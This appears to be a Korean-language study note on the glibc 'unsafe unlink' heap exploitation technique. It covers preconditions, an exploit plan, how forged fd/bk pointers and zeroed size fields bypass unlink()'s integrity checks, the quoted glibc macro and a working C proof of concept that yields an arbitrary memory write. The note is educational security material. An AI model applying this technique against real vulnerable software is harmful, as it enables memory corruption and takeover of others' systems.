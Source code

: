 # **Unsafe Unlink**

## **Conditions**

* 공격자에 의해 생성된 Heap 영역이 전역 변수에서 관리되어야 함
* 공격자에 의해 크기가 0x80 이상의 Heap 영역을 할당할 수 있어야 함
* 공격자에 의해 1번째 Heap 영역에 Fake Chunk을 저장할 수 있어야 함
* 공격자에 의해 2번째 Heap 영역에 Header를 덮어쓸 수 있어야 함
    * PREV_INUSE가 제거 되어야 한다.
* 공격자에 의해 2번째 Heap 영역을 해제할 수 있어야 함

## **Exploit Plan**

1. 2개의 Heap 영역 할당
    * 할당받은 첫 번째 Heap 영역의 주소는 전역변수에 저장
1. 1번째 Heap 영역에 Fake Chunk(Free) 구조를 저장(fd, bk)
    * prev_size : 0x0
    * size : 0x0
    * fd : Target Address(전역변수 주소) - 0x18
    * bk : Target Address(전역변수 주소) - 0x10
1. 2번쨰 Heap 영역의 Header 값을 변조
    * "prev_size" 설정(Second Chunk - prev_size = Fake Chunk)
    * "PREV_INUSE" flag 해제
1. 2번째 Heap 영역 해제
1. 전역변수 영역에 Fake Chunk의 fd 값이 저장됨
1. 전역변수[3] 영역에 공격자가 접근하려는 주소 값 저장
    * 전역변수를 통해 원하는 영역에 값을 쓸 수 있음

## **Mitigation**

1. P->bk != P || BK->fd != P
    * P->fd->bk, P->bk->fd의 값이 P의 값과 다른지 확인
    * Fake Chunk의 fd, bk 변조를 통한 우회
        * fd에 "fake chunk가 저장된 변수의 주소 - 0x18" 값을 저장
        * bk에 "fake chunk가 저장된 변수의 주소 - 0x10" 값을 저장

1. chunksize(P) != prev_size (next_chunk(P)
    * unlink() 함수에서 P->size와 next chunk->prev_size의 값이 다른지 확인
        * prev_size(0x0), size(0x0)으로 변조하여 우회
    * size 영역의 값이 0x0이기 때문에 next chunk(fake chunk + 0x0)의 주소는 결국 fake chunk의 주소가 된다.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;                                    \
    BK = P->bk;                                    \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))           \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {                                    \
        FD->bk = BK;                               \
        BK->fd = FD;                               \
        if (!in_smallbin_range (chunksize_nomask (P))                 \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {             \
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)          \
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
          malloc_printerr (check_action,                      \
                   "corrupted double-linked list (not small)",    \
                   P, AV);                        \
            if (FD->fd_nextsize == NULL) {                     \
                if (P->fd_nextsize == P)                   \
                  FD->fd_nextsize = FD->bk_nextsize = FD;           \
                else {                                \
                    FD->fd_nextsize = P->fd_nextsize;               \
                    FD->bk_nextsize = P->bk_nextsize;               \
                    P->fd_nextsize->bk_nextsize = FD;               \
                    P->bk_nextsize->fd_nextsize = FD;               \
                  }                               \
              } else {                                \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;            \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;            \
              }                                   \
          }                                   \
      }                                       \
}
```

![unsafe_unlink](/Resources/img/unsafe_unlink.jpg)

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
	fprintf(stderr, "Welcome to unsafe unlink 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04/16.04 64bit.\n");
	fprintf(stderr, "This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	fprintf(stderr, "The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	fprintf(stderr, "The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	fprintf(stderr, "We create a fake chunk inside chunk0.\n");
	fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	fprintf(stderr, "We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	fprintf(stderr, "With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	fprintf(stderr, "Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	fprintf(stderr, "Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	fprintf(stderr, "We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	fprintf(stderr, "It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	fprintf(stderr, "If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	fprintf(stderr, "We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	fprintf(stderr, "Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	fprintf(stderr, "You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	fprintf(stderr, "At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	fprintf(stderr, "chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	fprintf(stderr, "Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	fprintf(stderr, "New Value: %s\n",victim_string);
}
```


**References**  
<https://www.lazenca.net/display/TEC/unsafe+unlink>
<https://github.com/shellphish/how2heap>
